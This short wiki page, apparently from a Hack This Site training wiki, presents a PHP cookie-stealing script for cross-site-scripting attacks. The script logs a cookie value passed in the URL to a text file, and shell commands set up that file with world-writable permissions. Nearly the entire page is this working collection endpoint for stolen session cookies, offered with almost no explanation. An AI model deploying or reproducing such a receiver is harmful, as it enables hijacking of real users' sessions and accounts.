 This is a cross-site-scripting, script that steals a cookie.

    <?php
    $cookie = $HTTP_GET_VARS["cookie"];
    $file = fopen('cookielog.txt', 'a');
    fwrite($file, $cookie . "\n\n");
    ?>

    touch cookielog.txt
    chmod 777 cookielog.php

[Category:Hack This Site](Category:Hack This Site "wikilink")
<Category:Security>

